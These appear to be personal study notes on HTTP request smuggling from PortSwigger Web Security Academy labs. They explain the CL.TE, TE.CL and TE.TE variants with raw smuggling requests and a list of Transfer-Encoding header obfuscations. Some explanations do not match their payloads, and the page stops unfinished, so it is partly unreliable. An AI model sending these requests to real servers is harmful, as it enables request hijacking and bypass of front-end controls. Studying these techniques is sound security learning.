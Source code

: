 Classic attacks:
* **CL.TE**: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. 
* **TE.CL**: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. 
* **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding header`, but one of the servers can be induced not to process it by obfuscating the header in some way. 

# CL.TE vulnerabilities
```http
POST / HTTP/1.1
Host: 0ac8006704cb7888805bd5a00090009f.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
The front-end server processes the Content-Length header and determines that the request body is 6 bytes long, up to the end of `G`. 
he back-end server processes the `Transfer-Encoding` header, treat it as 0 byte chunk and `SMUGGLED` as the start of the next HTTP request.
After the next request will reach the server, server receives request started with `GPOST ...`. 

# TE.CL vulnerabilities
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```
Frontend process `Transfer-Encoding`, reads first chunk of 8 bytes with SMUGGLED data, then the second chunk is zero and it terminates request.
Backend processes `Content-Length` header and determines content is 3, up to the line following 8. Bytes after it are left unproccessed and will be treated as beginning of the next request.

# TE.TE behavior: obfuscating the TE header
This technique relays on parse header implementation difference. Both servers accept TH header, but one of them doesn't process obfuscating TH header.
Examples of obfuscation:
```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
Example:
```http
POST / HTTP/1.1
Host: 0a8c007703fb2aa38074622200a4006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0\r\n
\r\n
```
(dunno why Content-Length is 15 when its clearly less)

# How to identify HTTP request smuggling vulnerabilities
#to-be-continued 